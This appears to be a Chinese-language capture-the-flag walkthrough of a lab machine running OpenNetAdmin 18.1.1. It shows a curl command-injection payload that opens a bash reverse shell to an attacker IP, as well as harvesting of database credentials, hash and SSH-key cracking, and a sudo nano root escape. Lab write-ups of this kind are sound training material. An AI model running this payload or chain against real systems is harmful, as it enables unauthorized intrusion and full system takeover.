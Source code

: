 



![image-20220406013226415](https://raw.githubusercontent.com/huamang/image/master/image-20220406013226415.png)

# USER

namp扫描端口，开启了22端口ssh和80web服务

![image-20220406013248232](https://raw.githubusercontent.com/huamang/image/master/image-20220406013248232.png)

先看80端口，apache默认页面，进行一波路径扫描

![image-20220406013403142](https://raw.githubusercontent.com/huamang/image/master/image-20220406013403142.png)

扫出了两个这个

![image-20220406020718597](https://raw.githubusercontent.com/huamang/image/master/image-20220406020718597.png)

music路由

![image-20220406020825934](/Users/liucheng/Library/Application%2520Support/typora-user-images/image-20220406020825934.png)

ona路由

![image-20220406021003274](https://raw.githubusercontent.com/huamang/image/master/image-20220406021003274.png)

绑定了一个域名

![image-20220406023321743](https://raw.githubusercontent.com/huamang/image/master/image-20220406023321743.png)

这个ona路由看起来有文章可做

右上角登录，尝试弱口令登录，用admin:admin成功登录进去

![image-20220406021440346](https://raw.githubusercontent.com/huamang/image/master/image-20220406021440346.png)



这个系统叫做opennetadmin，版本是v18.1.1，去网上找一下有没有攻击脚本，发现kali里面就自带了

![image-20220406233826613](https://raw.githubusercontent.com/huamang/image/master/image-20220406233826613.png)

这里直接拿poc打了

```
cp /usr/share/exploitdb/exploits/php/webapps/47691.sh ./
```

但是不知道为什么我执行后报错了，无法执行，不太懂sh脚本语法

![image-20220407010354627](https://raw.githubusercontent.com/huamang/image/master/image-20220407010354627.png)

这里payload简单我就直接curl执行命令了

```
curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash -i >%26 /dev/tcp/10.10.16.5/6688 0>%261'&xajaxargs[]=ping" http://10.10.10.171/ona/
```

## www-data->jimmy

成功弹到shell

![image-20220407010929982](https://raw.githubusercontent.com/huamang/image/master/image-20220407010929982.png)

看看当前目录的文件，有一个config文件吸引了我的注意，cat出来看看，这里包含了一个配置文件

![image-20220407011402691](https://raw.githubusercontent.com/huamang/image/master/image-20220407011402691.png)

跟进去看了一下，好像并没有什么密码的泄露

然后去local目录下看了一下，又找到了一个配置文件，是数据库的配置文件，这里有数据库用户名密码

![image-20220407011826426](https://raw.githubusercontent.com/huamang/image/master/image-20220407011826426.png)

```
'db_type' => 'mysqli',
'db_host' => 'localhost',
'db_login' => 'ona_sys',
'db_passwd' => 'n1nj4W4rri0R!',
'db_database' => 'ona_default',
'db_debug' => false,
```

这个密码看起来有点提示的意思，试着直接用这个密码登录，先看一下用户表，查一下/etc/passwd

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...（省略）
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```

jimmy和joanna有点可疑，试着登录到jimmy，但是报错了

```
www-data@openadmin:/opt/ona/www/local/config$ su jimmy
su jimmy
su: must be run from a terminal
```

这里就需要弹一下shell来，比如可以用python去做

```
python3 -c 'import pty; pty.spawn("/bin/sh")'

su jimmy
```

这里登录不知道为什么会说我密码错误了，那么就直接ssh连接

![image-20220407013004164](https://raw.githubusercontent.com/huamang/image/master/image-20220407013004164.png)

jimmy还拿不到user的权限

![image-20220407013100171](https://raw.githubusercontent.com/huamang/image/master/image-20220407013100171.png)

## jimmy->joanna

查看一下apache的配置文件

```python
ls -l /etc/apache2/sites-available/*
/etc/apache2/sites-available/default-ssl.conf
/etc/apache2/sites-available/internal.conf
/etc/apache2/sites-available/openadmin.conf
```

发现了这个东西

```
cat /etc/apache2/sites-available/internal.conf
```

```
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

发现是joanna用户的，这里在52846端口开启了一个web服务，对应的目录在`/var/www/internal`

在index.php里面有密码哈希

![image-20220407110348785](https://raw.githubusercontent.com/huamang/image/master/image-20220407110348785.png)

```
00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1
```

成功解密出来，密码是Revealed

![image-20220407110539788](https://raw.githubusercontent.com/huamang/image/master/image-20220407110539788.png)

重新进行ssh连接进行端口转发

```
ssh jimmy@10.10.10.171 -L 52846:127.0.0.1:52846
```

![image-20220407110921191](https://raw.githubusercontent.com/huamang/image/master/image-20220407110921191.png)

用jimmy:Revealed登录进去，给了一个私钥

![image-20220407111107553](https://raw.githubusercontent.com/huamang/image/master/image-20220407111107553.png)

用hashcat爆破出密码，先把密钥文件转换成john可识别格式

```
/usr/share/john/ssh2john.py enc > enc.john 
```

再用hashcat爆破出密码bloodninjas

![image-20220407121748243](https://raw.githubusercontent.com/huamang/image/master/image-20220407121748243.png)

再用openssl生成id_rsa，然后登录ssh

![image-20220407121610321](https://raw.githubusercontent.com/huamang/image/master/image-20220407121610321.png)

拿到user.txt

![image-20220407123540678](https://raw.githubusercontent.com/huamang/image/master/image-20220407123540678.png)

# ROOT

## joanna->root

这里有一个nano是用root权限使用的

![image-20220407123816355](https://raw.githubusercontent.com/huamang/image/master/image-20220407123816355.png)

可以去这里看https://gtfobins.github.io/gtfobins/nano/#sudo

```
sudo /bin/nano /opt/priv
```

执行ctrl+r后执行ctrl+x

![image-20220407125032145](https://raw.githubusercontent.com/huamang/image/master/image-20220407125032145.png)

执行一个id试试

![image-20220407125206843](https://raw.githubusercontent.com/huamang/image/master/image-20220407125206843.png)

直接执行`cat /root/root.txt`

![image-20220407125316599](https://raw.githubusercontent.com/huamang/image/master/image-20220407125316599.png)